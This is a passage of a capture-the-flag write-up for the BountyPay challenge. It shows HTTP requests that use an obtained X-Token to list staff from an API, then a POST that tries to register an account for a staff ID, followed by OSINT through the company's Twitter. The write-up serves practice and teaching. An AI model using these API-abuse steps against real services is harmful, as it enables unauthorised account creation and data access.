 Request
```bash
GET /api/staff HTTP/1.1
Host: api.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: es-CL,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
X-Token: 8e9998ee3137ca9ade8f372739f062c1
```
Response
``` bash
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Sun, 07 Jun 2020 17:13:50 GMT
Content-Type: application/json
Connection: close
Content-Length: 104

[{"name":"Sam Jenkins","staff_id":"STF:84DJKEIP38"},{"name":"Brian Oliver","staff_id":"STF:KE624RQ2T9"}]
```

Changing the request to POST and sent staff_id with retrieved data
request:
```bash
POST /api/staff HTTP/1.1
Host: api.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: es-CL,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
X-Token: 8e9998ee3137ca9ade8f372739f062c1
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

staff_id=STF:KE624RQ2T9
```
Response
```bash
HTTP/1.1 409 Conflict
Server: nginx/1.14.0 (Ubuntu)
Date: Sun, 07 Jun 2020 17:16:32 GMT
Content-Type: application/json
Connection: close
Content-Length: 39

["Staff Member already has an account"]
```
So i needed to find a new staff member to activate.
Got twitter information from https://twitter.com/BountypayHQ  and found a welcome tweet https://twitter.com/BountypayHQ/status/1258692286256500741
There is the new member and need to activate her account.
